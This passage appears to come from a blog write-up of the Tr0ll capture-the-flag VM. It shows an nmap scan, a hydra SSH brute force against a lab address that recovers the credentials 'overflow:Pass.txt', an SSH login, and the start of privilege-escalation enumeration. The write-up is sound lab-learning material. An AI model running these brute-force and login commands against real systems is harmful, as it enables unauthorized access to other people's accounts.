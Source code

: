 Err, the sudden errors only meant one thing... `fail2ban`.

```bash Tr0ll ssh filtered
root@kali:~# nmap -v --reason -Pn 192.168.56.101 -p 22

PORT   STATE    SERVICE REASON
22/tcp filtered ssh     no-response

```

So, this was the first part that frustrated me and had me going _"seriously... :\"_. Maybe this was actually a list of `ftp` creds? Sadly, that did not seem to be the case either. And so I was stuck once again. Hydra was slowly trickling on once the ssh service was unbanned again, but it was annoying as heck.

##first shell
I kept bouncing the VM to get the ssh service back faster, allowing hydra to do it's `thing`. Eventually, it was apparent that none of these words as a username/password combination was the correct one.

Returning to the web interface and the word lists, I realized (with some subtle hints and reminders from @barrebas to *read* everything), that the password may be in this folder (`this_folder_contains_the_password`). Get it, the `Pass.txt` is the password...

Right, so I changed `hydra` slightly to use `Pass.txt` as a password and continued to brute with the original `list.txt` as usernames:


```bash Tr0ll hydra success`
root@kali:~# hydra -v -V -u -L list -p "Pass.txt" -t 1 -u 192.168.56.101 ssh 
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

[DATA] 1 task, 1 server, 13 login tries (l:13/p:1), ~13 tries per task
[DATA] attacking service ssh on port 22
[VERBOSE] Resolving addresses ... done
[ATTEMPT] target 192.168.56.101 - login "maleus" - pass "Pass.txt" - 1 of 13 [child 0]
[ATTEMPT] target 192.168.56.101 - login "ps-aux" - pass "Pass.txt" - 2 of 13 [child 0]
[ATTEMPT] target 192.168.56.101 - login "felux" - pass "Pass.txt" - 3 of 13 [child 0]
[...]
[22][ssh] host: 192.168.56.101   login: overflow   password: Pass.txt
```

Yay `overflow:Pass.txt` should get us a session via ssh:

```bash Tr0ll ssh
root@kali:~/Desktop/Tr0ll# ssh overflow@192.168.56.101
overflow@192.168.56.101's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

[...]

Could not chdir to home directory /home/overflow: No such file or directory
$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
```

##... and root
And so it was time for classic enumeration again. The first _strange_ thing was the fact that it appeared as if all the `/home` directories apart from `/home/troll` was deleted. Weird. Other than that, there were a whole bunch of users according to `/etc/passwd`, and I can't run anything as `root` via `sudo`.
